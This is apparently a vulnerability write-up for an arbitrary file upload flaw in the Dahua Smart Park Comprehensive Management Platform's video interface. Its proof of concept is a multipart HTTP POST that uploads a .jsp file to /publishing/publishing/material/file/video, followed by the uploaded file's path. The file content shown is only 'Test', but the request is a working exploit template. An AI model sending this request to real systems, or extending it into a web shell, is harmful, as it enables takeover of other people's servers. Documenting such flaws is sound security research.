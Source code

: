 # Dahua Smart Park Comprehensive Management Platform video Any file upload vulnerability

## Vulnerability Description

Dahua Smart Park Comprehensive Management Platform Video Interface has a vulnerability to upload any file to the server through the vulnerability, and the attacker can upload any file to the server to control server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Dahua Smart Park Comprehensive Management Platform </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163903583.png)

Verify POC

```php
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691823930473-91166fc0-48f5-4c6c-b305-2237a53b13d6.png)

```php
/publishingImg/VIDEO/230812152005170200.jsp
```
